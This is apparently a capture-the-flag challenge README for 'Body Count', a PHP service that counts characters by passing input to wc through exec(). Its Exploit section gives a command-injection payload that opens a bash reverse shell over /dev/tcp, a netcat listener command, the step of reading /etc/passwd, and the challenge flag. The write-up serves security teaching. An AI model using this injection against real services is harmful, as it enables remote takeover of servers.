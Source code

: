 # Body Count

Author: [AJ1479](https://github.com/AJ1479)

## Description

This challenge is based on PHP code injection to set up a reverse shell. 

## Requirements

- Docker: [Dockerfile](./Dockerfile)

## Sources

```
Here's a character count service for you!
```

## Exploit

This challenge deals with PHP code injection, you need to enter some code which will help you create a reverse shell.
<br />

The characters are counted using the `wc` command in the `exec()` function in the PHP. This is where you'll have to enter code to open a reverse shell. Something like `'; bash -c "bash -i >& /dev/tcp/127.0.0.1/8000 0>&1"; '`(using semicolons to end the commands) with your IP address (instead of 127.0.0.1) and start a netcat listener (`nc -l -p 8000`) on your server. Then, navigate to the `/etc/passwd` to get the flag.
<br />

The flag is:

```
csictf{1nj3ct10n_15_p41nfu1}
```